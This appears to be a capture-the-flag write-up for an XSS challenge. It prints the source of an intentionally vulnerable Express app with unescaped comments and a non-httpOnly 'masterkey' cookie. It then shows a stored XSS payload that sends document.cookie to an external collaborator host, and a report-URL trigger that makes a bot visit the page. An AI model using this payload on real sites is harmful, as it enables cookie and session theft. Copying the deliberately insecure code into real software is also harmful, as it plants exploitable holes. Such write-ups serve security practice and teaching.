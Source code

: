 ## js code

<details>
  <summary>js code</summary>

const express = require('express');
const session = require('express-session');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');
const app = express();
const puppeteer = require('puppeteer');


// --------------------------------------------------Auxiliary Code
app.use(bodyParser.urlencoded({ extended: true }));
app.use(session({
    secret: process.env.SESSION_SECRET,
    resave: false,
    saveUninitialized: true
}));

app.use((req, res, next) => {
    if (!req.session.csrfToken) {
        req.session.csrfToken = generateCSRFToken();
    }
    next();
});

const crypto = require('crypto');

function generateCSRFToken() {
    return crypto.randomBytes(32).toString('hex');
}

function verifyCSRF(req, res) {
    const tokenFromBody = req.body._csrf;
    const tokenFromSession = req.session.csrfToken;
    return tokenFromBody && tokenFromSession && tokenFromBody === tokenFromSession;
}

function escapeHTML(str) {
    return String(str).replace(/[&<>"'`=\/]/g, function (char) {
        return {
            '&': '&amp;',
            '<': '&lt;',
            '>': '&gt;',
            '"': '&quot;',
            "'": '&#x27;',
            '`': '&#x60;',
            '=': '&#x3D;',
            '/': '&#x2F;'
        }[char];
    });
}

// Insecure in-memory users database, only for XSS challenge purposes
const users = {
    alice: { username: 'alice', password: 'pass', bio: 'Hi, I am Alice!' },
    bob: { username: 'bob', password: process.env.BOB_PASS, bio: 'Hello from Bob!' }
};

let sharedComments = [];


function isAuthenticated(req) {
    return req.session && req.session.username && users[req.session.username];
}

function renderHTML(filePath, replacements = {}) {
    let content = fs.readFileSync(path.join(__dirname, 'public', filePath), 'utf-8');
    for (let key in replacements) {
        const regex = new RegExp(`{{${key}}}`, 'g');
        content = content.replace(regex, replacements[key]);
    }
    return content;
}

// -------------------------------------------- Routes

app.get('/', (req, res) => {
    if (isAuthenticated(req)) return res.redirect('/profile');
    res.send(renderHTML('login.html', { error: '' }));
});

// Insecure login flow, only for XSS challenge purposes
app.post('/login', (req, res) => {
    const { username, password } = req.body;

    if (users[username] && users[username].password === password) {
        req.session.username = username;

        // Set masterkey cookie
        let masterKeyValue = '';

        if (username === 'alice') {
            masterKeyValue = 'DEMOMASTERKEY';
        } else if (username === 'bob') {
            try {
                masterKeyValue = fs.readFileSync('/tmp/masterkey.txt', 'utf8').trim();
            } catch (err) {
                console.error('[!] Failed to read /tmp/masterkey.txt:', err);
                masterKeyValue = 'ERROR';
            }
        }

        res.cookie('masterkey', masterKeyValue, {
            httpOnly: false, // Accessible by javascript code
        });

        return res.redirect('/profile');
    }

    res.send(renderHTML('login.html', { error: '<p class="error">Invalid credentials</p>', csrfToken: req.session.csrfToken }));
});

app.get('/profile', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    const user = users[req.session.username];
    res.send(renderHTML('profile.html', {
        username: escapeHTML(user.username),
        bio: escapeHTML(user.bio),
        csrfToken: req.session.csrfToken}));
});

app.post('/profile', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    if (!verifyCSRF(req, res)) return res.status(403).send('Invalid CSRF token');
    const { bio, password } = req.body;
    const user = users[req.session.username];
    user.bio = bio;
    if (password && password.trim()) user.password = password;
    res.redirect('/profile');
});

app.get('/shared', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    const commentHTML = sharedComments.map(c =>
        `<li><strong>${escapeHTML(c.author)}:</strong> ${c.text}</li>`
    ).join('');
    res.send(renderHTML('shared.html', { comments: commentHTML, csrfToken: req.session.csrfToken }));
});

app.post('/shared', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    if (!verifyCSRF(req, res)) return res.status(403).send('Invalid CSRF token');
    const comment = {
        author: req.session.username,
        text: req.body.comment
    };
    sharedComments.push(comment);
    res.redirect('/shared');
});

app.get('/search', (req, res) => {
    if (!isAuthenticated(req)) return res.status(401).send('Unauthorized');

    const query = req.query.query || '';
    if (!query) return res.status(400).send('Query parameter is required');

    const results = sharedComments.filter(c => 
        c.text.includes(query)
    );

    let html = `<h2>Search Results for "${escapeHTML(query)}"</h2>`;
    if (results.length === 0) {
        html += `<p>No matches found.</p>`;
    } else {
        html += '<ul>';
        results.forEach(c => {
            html += `<li><strong>${escapeHTML(c.author)}:</strong> ${escapeHTML(c.text)}</li>`;
        });
        html += '</ul>';
    }

    html += `<br><a href="/shared">Back to Shared Area</a>`;
    res.send(html);
});



app.get('/logout', (req, res) => {
    req.session.destroy(() => {
        res.redirect('/');
    });
});



app.get('/report', async (req, res) => {
    const targetUrl = 'http://localhost/shared';


    // Respond immediately so the user doesn’t wait
    res.send('Bob is checking it out...');
/*
    .
    .
    .
    . BOB AUTOMATED LOGIN AND VISIT CODE
    .
    .
    .
*/
});



app.listen(80, () => {
    console.log('Running on http://localhost:80');
});



  
</details>




---
----


### note that `httponly` is false

```javascript
        res.cookie('masterkey', masterKeyValue, {
            httpOnly: false, // Accessible by javascript code
        });
```


### note that comments are not filtered

 found  **` ${c.text}`**

```javascript
app.get('/shared', (req, res) => {
    if (!isAuthenticated(req)) return res.redirect('/');
    const commentHTML = sharedComments.map(c =>
        `<li><strong>${escapeHTML(c.author)}:</strong> ${c.text}</li>`
    ).join('');
    res.send(renderHTML('shared.html', { comments: commentHTML, csrfToken: req.session.csrfToken }));
});
```






## put payload in comment


```javascript
<script>
  var i = new Image();
  i.src = "http://j3nztlrfmpkyc2gtlbapa5dho8uzip6e.oastify.com/?" + document.cookie;
</script>
```

> now if anyone visit the page will send it's cookie to us 


<img width="1853" height="708" alt="image" src="https://github.com/user-attachments/assets/90837eb7-41a2-4794-9ed7-a8e00a301e54" />


## make `bob` visit **`/shared`** to make payload work on him

```url
http://3.255.167.182/report?url=http://localhost/shared
```

<img width="1886" height="670" alt="image" src="https://github.com/user-attachments/assets/3c13727a-ed72-43a8-ae49-18f73f0f7078" />





```
c7b9605f9d8e1lb8bbc7d3024bdanb49 
```










































































